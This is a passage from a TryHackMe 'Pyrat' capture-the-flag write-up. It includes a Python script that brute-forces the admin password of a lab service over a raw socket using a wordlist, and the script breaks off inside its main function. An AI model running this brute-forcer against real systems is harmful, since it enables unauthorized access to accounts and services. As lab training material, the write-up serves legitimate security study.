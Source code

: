 The functionality works but we don't have a password.

Reading through the script I found the password `testpass` but it didn't work.

The next step now is to brute force the password.

I wrote the following script that does that <https://github.com/NasrallahBaadi/CTF-Scripts/tree/main/TryHackMe/pyrat>.

```python
import socket
import sys
import argparse

def read_passwords(file_path):
    with open(file_path, "r", encoding='utf-8', errors='ignore') as f:
        for line in f:
            yield line.strip("\n")

def bruteforce(host, port, file_path):
    print("[+] Starting the script")
    try:
        for password in read_passwords(file_path):
        
        # Create a socket connection
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect((host, port))

        # Send the word 'admin'
            client.sendall(b"admin")
            response = client.recv(1024).decode('utf-8')
        # Send the password
            client.sendall(bytes(password, encoding='utf8'))
            response = client.recv(1024).decode('utf-8')
            
            # Clear the previous output line completely using ANSI escape codes
            sys.stdout.write('\033[2K\033[1G')
            sys.stdout.write(f"[+] Trying password: {password}")
            sys.stdout.flush()

            if 'Welcome Admin' in response:
                sys.stdout.write('\033[2K\033[1G')
                print(f"[+] Password is: {password}")
                client.close()
                sys.exit(0)

            client.close()
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")

def main():
    # Example on how to use the script
    example = '''
    Example:
        python3 pyrat_brute.py -i 10.10.10.10 -f /usr/share/wordlists/rockyou.txt
'''
    
    # Parse command-line arguments
    parser = argparse.ArgumentParser(description="Brute force admin password of pyRAT.", epilog=example, formatter_class=argparse.RawDescriptionHelpFormatter)
    parser.add_argument('-i', '--ip', help='IP address of the target', required=True, metavar='ip_address')
    parser.add_argument('-f', '--file', help='Password list file', required=True, metavar='file_path')
    args = parser.parse_args()

```